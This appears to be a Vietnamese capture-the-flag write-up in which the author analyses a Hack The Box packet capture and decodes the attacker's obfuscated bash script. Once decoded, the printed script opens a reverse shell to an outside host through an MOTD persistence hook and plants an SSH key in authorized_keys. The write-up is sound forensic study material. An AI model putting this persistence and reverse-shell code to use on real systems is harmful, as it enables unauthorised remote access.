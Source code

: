 # _REDTRAILS_
Nâng độ khó lên xíu nhé, lần này thử thách ở mức medium và flag được chia làm 3 phần
![image](https://github.com/user-attachments/assets/3580497d-6464-4fe6-a50a-cbbee1645a3b)

Tải về tệp zip, giải nén ta có được 1 file .pcapng, mình dùng wireshark để phân tích

![image](https://github.com/user-attachments/assets/9a9a2e07-9448-4f0b-aee3-7464ec81b8af)

Mở ra thì mình thấy có 2 giao thức quen thuộc là **TCP**, **HTTP** và 1 giao thức lần đầu mình gặp là **RESP**

![image](https://github.com/user-attachments/assets/4591df69-e5f7-4042-a6c2-69845dab820e)

Khi mình gặp **HTTP** thì mình thường dùng **export object HTTP** 

![image](https://github.com/user-attachments/assets/edfc54b5-1f16-457c-96f3-fa950caa3cc1)

Follow HTTP stream của packet đó ta được một đoạn hội thoại giữa client và server như sau

![image](https://github.com/user-attachments/assets/30c631b4-966e-4b88-b92e-1b084bfa81de)

Nhìn cũng chả hiểu gì nhưng mình thấy 1 đoạn mã rất giống base64 nhưng bị viết ngược, mình thử convert lại bằng python

![image](https://github.com/user-attachments/assets/676810c5-0bff-423c-8679-b2f59c6ecd57)

Lấy đoạn mã đó ném lên cyberchef from base64, ta được

```
#!/bin/bash

lhJVXukWibAFfkv() {
	ABvnz='ZWNobyAnYmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3R'
	QOPjH='jcC8xMC4xMC4wLjIwMC8xMzM3IDA+JjEiJyA+IC9'
	gQIxX='ldGMvdXBkYXRlLW1vdGQuZC8wMC1oZWFkZXIK'
    echo "$ABvnz$QOPjH$gQIxX" | base64 --decode | bash
}

x7KG0bvubT6dID2() {
	LQebW="ZWNobyAtZSAiXG5zc2gtcnNhIEFBQUFCM056YUMxeWMyRUFBQUFEQVFBQkFBQUNBUUM4VmtxOVVUS01ha0F4MlpxK1BuWk5jNm5ZdUVL"
	gVR7i="M1pWWHhIMTViYlVlQitlbENiM0piVkp5QmZ2QXVaMHNvbmZBcVpzeXE5Smc2L0tHdE5zRW10VktYcm9QWGh6RnVtVGdnN1oxTnZyVU52"
	bkzHk="bnFMSWNmeFRuUDErLzRYMjg0aHAwYkYyVmJJVGI2b1FLZ3pSZE9zOEd0T2FzS2FLMGsvLzJFNW8wUktJRWRyeDBhTDVIQk9HUHgwcDhH"
	q97up="ckdlNGtSS29Bb2tHWHdEVlQyMkxsQnlsUmtBNit4NmpadGQyZ1loQ01nU1owaU05UnlZN2s3SzEzdEhYekVrN09jaVVtZDUvWjdZdW9s"
	GYJan="bnQzQnlYOWErSWZMTUQvRlFOeTFCNERZaHNZNjJPN28yeFIwdnhrQkVwNVVoQkFYOGdPVEcwd2p6clVIeG1kVWltWGdpeTM5WVZaYVRK"
	HJj6A="UXdMQnR6SlMvL1loa2V3eUYvK0NQMEg3d0lLSUVybGY1V0ZLNXNrTFlPNnVLVnB4NmFrR1hZOEdBRG5QVTNpUEsvTXRCQytScVdzc2Rr"
	fD9Kc="R3FGSUE1eEcyRm4rS2xpZDlPYm0xdVhleEpmWVZqSk1PZnZ1cXRiNktjZ0xtaTV1UmtBNit4NmpadGQyZ1loQ01nU1owaU05UnlZN2s3"
	hpAgs="SzEzdEhYekVrN09jaVVtZDUvWjdZdW9sbnQzQnlYOWErSWxTeGFpT0FEMmlOSmJvTnVVSXhNSC85SE5ZS2Q2bWx3VXBvdnFGY0dCcVhp"
	FqOPN="emNGMjFieE5Hb09FMzFWZm94MmZxMnFXMzBCRFd0SHJyWWk3NmlMaDAyRmVySEVZSGRRQUFBMDhOZlVIeUN3MGZWbC9xdDZiQWdLU2Iw"
	CpJLT="Mms2OTFsY0RBbzVKcEVFek5RcHViMFg4eEpJdHJidz09SFRCe3IzZDE1XzFuNTc0bmMzNSIgPj4gfi8uc3NoL2F1dGhvcml6ZWRfa2V5"
	PIx1p="cw=="
	echo "$LQebW$gVR7i$bkzHk$q97up$GYJan$HJj6A$fD9Kc$hpAgs$FqOPN$CpJLT$PIx1p" | base64 --decode | bash
}

hL8FbEfp9L1261G() {
	lhJVXukWibAFfkv
	x7KG0bvubT6dID2
}

hL8FbEfp9L1261G
```
Theo ý hiểu của mình thì đây là một đoạn mã Bash bao gồm một tập hợp các hàm mã hóa bằng Base64, giải mã và thực thi mã đã giải bằng lệnh Bash. Nhìn thấy base64 khá ngứa tay nên viết 1 đoạn python để nối tất cả chúng lại

```
import base64

base64_strings = [
"ZWNobyAnYmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3R",
"jcC8xMC4xMC4wLjIwMC8xMzM3IDA+JjEiJyA+IC9",
"ldGMvdXBkYXRlLW1vdGQuZC8wMC1oZWFkZXIK",
"ZWNobyAtZSAiXG5zc2gtcnNhIEFBQUFCM056YUMxeWMyRUFBQUFEQVFBQkFBQUNBUUM4VmtxOVVUS01ha0F4MlpxK1BuWk5jNm5ZdUVL",
"M1pWWHhIMTViYlVlQitlbENiM0piVkp5QmZ2QXVaMHNvbmZBcVpzeXE5Smc2L0tHdE5zRW10VktYcm9QWGh6RnVtVGdnN1oxTnZyVU52",
"bnFMSWNmeFRuUDErLzRYMjg0aHAwYkYyVmJJVGI2b1FLZ3pSZE9zOEd0T2FzS2FLMGsvLzJFNW8wUktJRWRyeDBhTDVIQk9HUHgwcDhH",
"ckdlNGtSS29Bb2tHWHdEVlQyMkxsQnlsUmtBNit4NmpadGQyZ1loQ01nU1owaU05UnlZN2s3SzEzdEhYekVrN09jaVVtZDUvWjdZdW9s",
"bnQzQnlYOWErSWZMTUQvRlFOeTFCNERZaHNZNjJPN28yeFIwdnhrQkVwNVVoQkFYOGdPVEcwd2p6clVIeG1kVWltWGdpeTM5WVZaYVRK",
"UXdMQnR6SlMvL1loa2V3eUYvK0NQMEg3d0lLSUVybGY1V0ZLNXNrTFlPNnVLVnB4NmFrR1hZOEdBRG5QVTNpUEsvTXRCQytScVdzc2Rr",
"R3FGSUE1eEcyRm4rS2xpZDlPYm0xdVhleEpmWVZqSk1PZnZ1cXRiNktjZ0xtaTV1UmtBNit4NmpadGQyZ1loQ01nU1owaU05UnlZN2s3",
"SzEzdEhYekVrN09jaVVtZDUvWjdZdW9sbnQzQnlYOWErSWxTeGFpT0FEMmlOSmJvTnVVSXhNSC85SE5ZS2Q2bWx3VXBvdnFGY0dCcVhp",
"emNGMjFieE5Hb09FMzFWZm94MmZxMnFXMzBCRFd0SHJyWWk3NmlMaDAyRmVySEVZSGRRQUFBMDhOZlVIeUN3MGZWbC9xdDZiQWdLU2Iw",
"Mms2OTFsY0RBbzVKcEVFek5RcHViMFg4eEpJdHJidz09SFRCe3IzZDE1XzFuNTc0bmMzNSIgPj4gfi8uc3NoL2F1dGhvcml6ZWRfa2V5",
"cw==",
"lhJVXukWibAFfkv",
"x7KG0bvubT6dID2",

]
combined_base64 = "".join(base64_strings)
decoded_bytes = base64.b64decode(combined_base64)
decoded_string = decoded_bytes.decode('utf-8')
print(decoded_string)
```
Giải mã ta được 1 cái gì đó nhìn chả hiểu

![image](https://github.com/user-attachments/assets/96bbb608-cf11-4e11-a343-9405c40c1e5f)

Nhưng lấy dược part 1 của flag
```
HTB{r3d15_1n574nc35"
```




